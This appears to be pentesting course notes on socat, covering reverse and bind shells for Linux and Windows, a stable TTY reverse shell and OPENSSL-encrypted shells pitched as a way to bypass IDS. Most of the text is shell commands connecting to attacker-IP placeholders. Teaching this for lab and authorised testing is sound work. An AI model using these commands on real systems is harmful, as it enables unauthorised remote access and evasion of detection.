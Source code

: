 # Socat
### Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

- socat TCP-L:<port> -

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to **nc -lvnp <port>**.

On Windows we would use this command to connect back:

- socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

- socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

### Bind Shells

On a Linux target we would use the following command:

- socat TCP-L:<PORT> EXEC:"bash -li"

On a Windows target we would use this command for our listener:

- socat TCP-L:<PORT> EXEC:powershell.exe,pipes

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

- socat TCP:<TARGET-IP>:<TARGET-PORT> -

Now let's take a look at one of the more powerful uses for Socat: a **fully stable Linux tty reverse shell**. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

- socat TCP-L:<port> FILE:`tty`,raw,echo=0

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, **stty raw -echo; fg** trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

- socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  **EXEC:"bash -li"**. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

pty, allocates a pseudoterminal on the target -- part of the stabilisation process
stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
setsid, creates the process in a new session
sane, stabilises the terminal, attempting to "normalise" it.

# Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time **TCP** was used as part of a command, this should be replaced with **OPENSSL** when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

- openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single **.pem** file:

- cat shell.key shell.crt > shell.pem

Now, when we set up our reverse shell listener, we use:

- sudo socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

This sets up an OPENSSL listener using our generated certificate. **verify=0** tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

- socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

The same technique would apply for a bind shell:

Target:

- socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

Attacker:

- socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -